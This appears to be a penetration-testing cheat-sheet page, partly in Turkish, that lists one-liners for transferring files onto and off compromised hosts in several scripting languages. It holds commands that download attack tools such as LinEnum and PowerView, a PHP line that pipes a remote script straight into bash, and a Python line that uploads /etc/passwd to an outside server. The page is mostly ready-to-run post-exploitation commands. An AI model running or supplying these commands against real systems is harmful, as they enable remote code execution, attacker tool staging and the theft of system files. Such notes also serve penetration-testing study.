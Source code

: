 ```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Transferring Files with Code

## Python

### Python 2 - Download

```bash
python2.7 -c 'import urllib; urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### Python 3 - Download

```bash
python3 -c 'import urllib.request; urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

## PHP

### PHP Download with File_get_contents()

```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

### PHP Download with Fopen()

```bash
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### PHP Download a File and Pipe it to Bash

```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## Other Languages

### Ruby - Download a File

```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

### Perl - Download a File

```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

## JavaScript

Aşağıda verilen script dosyasına bakalım:

```javascript title="wget.js" linenums="1"
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Herhangi bir dosya indirmek için bu dosyayı `#!batch cscript.exe` ile birlikte kullanabiliriz:

```batch
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## VBScript

Aşağıda verilen script dosyasına bakalım:

```vbscript title="wget.vbs" linenums="1"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Herhangi bir dosya indirmek için bu dosyayı `#!batch cscript.exe` ile birlikte kullanabiliriz:

```batch
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

## Upload Operations using Python3

### Starting the Python uploadserver Module

```bash
python3 -m uploadserver
```

### Uploading a File Using a Python One-Liner

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
